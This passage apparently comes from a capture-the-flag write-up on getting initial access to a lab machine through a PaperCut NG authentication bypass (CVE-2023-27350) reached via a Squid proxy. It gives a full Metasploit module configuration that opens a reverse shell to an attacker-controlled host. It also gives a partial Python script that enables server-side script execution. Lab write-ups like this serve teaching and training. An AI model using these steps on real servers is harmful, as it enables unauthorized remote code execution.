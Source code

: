 Use the proxied scan to reach internal admin panels that are only available from the host or internal subnet.

---

## 2) Gaining initial access — PaperCut auth bypass

### Vulnerability
PaperCut NG versions (including 22.0 in this machine) had an authentication bypass allowing unauthenticated access to admin endpoints. Relevant identifier: **CVE-2023-27350** (also referenced by ZDI advisory ZDI-CAN-18987).

### Exploitation approach
1. Use the Squid proxy to reach the PaperCut admin UI.
2. Exploit the auth bypass to read and update configuration keys (specifically `print-and-device.script.enabled`).
3. Deploy a Metasploit payload (reverse shell) through the now-enabled script execution flow to obtain a user shell.

### Example Metasploit workflow
Show `set` lines and important options so readers can reproduce this reliably.

```text
# In msfconsole
use multi/http/papercut_ng_auth_bypass
set RHOSTS 127.0.0.1            # or the internal address reachable through the proxy
set RPORT 9191                  # example admin port; replace with scanned port
set LHOST 10.10.15.52           # your attacking machine
set LPORT 4444
set Proxies http:10.129.54.74:3128  # point metasploit to use the Squid proxy
set ReverseAllowProxy true
show options
run
```

> Important: `Proxies` and `ReverseAllowProxy` instruct Metasploit to route the reverse connection appropriately when exploiting via proxy. Verify `show options` before running.


### Modified `update_config.py` (explanation)
I modified a public exploit script to automate setting `print-and-device.script.enabled=Y` using the unauthenticated session the bypass provides. Below is an annotated **example** that demonstrates the logic (adapt to your environment).

```python
#!/usr/bin/env python3
"""
modified_update_config.py — example to find and set the PaperCut config key
Logic:
 - Obtain unauthenticated session/JSESSIONID via the auth-bypass endpoint
 - POST to the server's config update endpoint to set print-and-device.script.enabled=Y
 - Verify the change

This example is intentionally concise — adapt error handling and logging for production use.
"""

import requests

TARGET = 'http://10.129.54.74:9191'
PROXIES = {'http':'http://10.129.54.74:3128','https':'http://10.129.54.74:3128'}

# 1) obtain bypass session (pseudo-step; exact endpoint depends on the target)
# session = requests.Session()
# session.proxies.update(PROXIES)
# r = session.get(TARGET + '/some/bypass/endpoint')
```